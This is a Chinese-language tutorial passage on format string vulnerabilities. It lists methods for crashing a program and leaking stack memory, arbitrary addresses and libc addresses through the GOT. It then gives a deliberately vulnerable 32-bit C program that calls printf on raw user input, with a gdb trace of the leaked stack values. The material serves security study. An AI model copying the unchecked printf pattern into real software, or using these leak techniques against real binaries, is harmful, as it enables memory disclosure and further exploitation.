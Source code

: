 

### 格式化字符串漏洞利用

1. 使程序崩溃。 %s 对应的参数地址不合法的概率较大，输入若干个 %s ，栈上不可能每个值都对应了合法的地址，总是会有某个地址可以使得程序崩溃
2. 查看进程内容。根据 `%d, %f, %08x`等输出栈上的内容
   1. 泄露栈内存
      - 获取某个变量的值
      - 获取某个变量对应地址的内存
   2. 泄露任意地址内存
      - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
      - 盲打，dump 整个程序，获取有用信息



#### 泄露内存

通常来说：

1. 利用 `%x` 来获取对应栈的内存，但建议使用 `%p`，可以不用考虑位数的区别
2. 利用 `%s` 来获取变量所对应地址的内容，只不过有零截断
3. 利用 `%order$x` 来获取指定参数的值，利用 `%order$s` 来获取指定参数对应地址的内容。order为一数字



```cpp
#include <stdio.h>  // leakmemory.c // gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
int main() {  // 编译时指定了为32bit 格式化字符串函数会根据格式化字符串直接使用栈上自顶向上的变量作为参数
    char s[100];  // printf(s); 处: warning: format not a string literal and no format arguments [-Wformat-security]
    int a = 1, b = 0x22222222, c = -1;
    scanf("%s", s);                             // 在这里输入 %08x.%08x.%08x
    printf("%08x.%08x.%08x.%s\n", a, b, c, s);  // Output:  00000001.22222222.ffffffff.%08x.%08x.%08x
    printf(s);
    return 0;
}
```
- 输入为`%08x.%08x.%08x`时的栈，输出：
```assembly
$ gdb leakmemory
> b printf
> r # run
%08x.%08x.%08x      #   scanf("%s", s);   输入 %08x.%08x.%08x 后回车
Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28   # 在第1个 printf 处断下
─────────────────────────────────────────[ stack ]──── # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的栈
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20     ← $esp  # 返回地址
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s" # 格式化字符串的地址    printf的第 1 个参数  # 0x8048563
0xffffccf4│+0x08: 0x00000001      # a = 1     格式化字符串的第 1 个参数  printf的第 2 个参数
0xffffccf8│+0x0c: 0x22222222      # b = 0x22222222  格式化字符串的第 2 个参数  printf的第 3 个参数
0xffffccfc│+0x10: 0xffffffff      # c = -1    格式化字符串的第 3 个参数  printf的第 4 个参数
0xffffcd00│+0x14: 0xffffcd10  →  "%08x.%08x.%08x" # 输入的字符串的地址 s="%08x.%08x.%08x" # 格式化字符串的第 4 个参数  printf的第 5 个参数 
0xffffcd04│+0x18: 0xffffcd10  →  "%08x.%08x.%08x" # 下一个 printf 函数的格式化字符串 即下一个printf的第 1 个参数
0xffffcd08│+0x1c: 0x000000c2
> c # continue
00000001.22222222.ffffffff.%08x.%08x.%08x  # printf("%08x.%08x.%08x.%s\n", a, b, c, s); 的输出  s="%08x.%08x.%08x"
Breakpoint 1, __printf (format=0xffffcd10 "%08x.%08x.%08x") at printf.c:28 # 在第2个 printf 处断下
─────────────────────────────────────────[ stack ]────  # printf(s); 的栈
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10     ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  "%08x.%08x.%08x" # 格式化字符串的地址 printf的第 1 个参数 0xffffcd10
0xffffcd04│+0x08: 0xffffcd10  →  "%08x.%08x.%08x" # 栈上的 0xffffcd04 及其后的数值分别作为第1,2,3个参数按int型解析，分别输出
0xffffcd08│+0x0c: 0x000000c2                 # 被解析的第2个int型
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10 # 被解析的第3个int型
0xffffcd10│+0x14: "%08x.%08x.%08x"   ← $eax # "%08x.%08x.%08x" 的首地址
```